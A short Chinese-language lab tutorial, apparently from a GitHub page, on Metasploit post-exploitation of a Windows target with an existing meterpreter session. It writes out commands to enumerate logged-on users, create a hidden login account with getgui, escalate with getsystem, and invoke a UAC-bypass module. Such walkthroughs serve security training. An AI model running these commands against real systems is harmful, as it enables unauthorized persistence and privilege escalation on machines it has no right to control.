



一、环境准备

1 MSF-Metasploit Framework

2 一台获取到meterpreter的靶机

二、实际操作

1、先看下目标靶机已存在用户  meterpreter中输入：run post/windows/gather/enum_logged_on_users

 

2、使用getgui创建 一个用户名为 msb  密码为 123456  的账户

run getgui -u msb -p 123456

run getgui -u {用户名}-p {密码}

进入windows靶场中运行输入netplwiz 可以查看账户创建情况

[-] Insufficient privileges, account was not be created. 看到这个提示就需要先提权（获取到system），可以使用geysystem进行提权。

2.1 绕过UAC提权

当不能直接使用getsystem提权，可以利用这个模块进行绕过提权。

use exploit/windows/local/*ask*

设置session属性，然后使用run运行，然后在靶场需要点击这个exe可以运行。

然后kali才能进入到meterpreter中，于是可以再次使用getsystem来尝试提权。

	

​	